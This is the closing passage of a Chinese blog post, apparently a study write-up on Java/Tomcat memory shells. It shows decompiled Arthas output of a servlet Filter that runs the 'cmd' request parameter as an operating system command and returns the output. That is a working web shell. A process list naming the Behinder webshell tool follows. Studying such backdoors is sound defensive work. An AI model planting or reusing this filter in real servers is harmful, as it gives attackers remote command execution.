 ```shell
            public void destroy() {
/*199*/         super.destroy();
            }

            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException, ServletException {
/*180*/         if (request.getParameter("cmd") != null) {
/*182*/             String[] cmds = new String[]{"cmd", "/c", request.getParameter("cmd")};
/*183*/             InputStream in = Runtime.getRuntime().exec(cmds).getInputStream();
/*184*/             byte[] bcache = new byte[1024];
/*185*/             int readSize = 0;
/*186*/             Throwable throwable = null;
                    Object var9_10 = null;
                    try (ByteArrayOutputStream outputStream = new ByteArrayOutputStream();){
/*187*/                 while ((readSize = in.read(bcache)) != -1) {
/*188*/                     outputStream.write(bcache, 0, readSize);
                        }
/*190*/                 response.getWriter().println(outputStream.toString());
                    }
                    catch (Throwable throwable2) {
                        if (throwable == null) {
                            throwable = throwable2;
                        } else if (throwable != throwable2) {
                            throwable.addSuppressed(throwable2);
                        }
                        throw throwable;
                    }
                }
            }
        }

[arthas@14788]$


```





# 总结

太难咧，好久没碰Java，Servlet和tomcat也没了解，看这玩意就跟看天书一样，爬了爬了，接下来Java先从简单学起了。





# 参考链接

https://www.yuque.com/tianxiadamutou/zcfd4v/kd35na#de7894b8

https://mp.weixin.qq.com/s/YhiOHWnqXVqvLNH7XSxC9w


  [2]: 22768 org.jetbrains.jps.cmdline.Launcher
  [3]: 24208 org.jetbrains.idea.maven.server.RemoteMavenServer36
  [4]: 2832 Behinder.jar
  [5]: 22808
  [6]: 5816 burpsuite_pro_v2021.8.jar
  [7]: 23436 org.jetbrains.jps.cmdline.Launcher
  [8]: 4092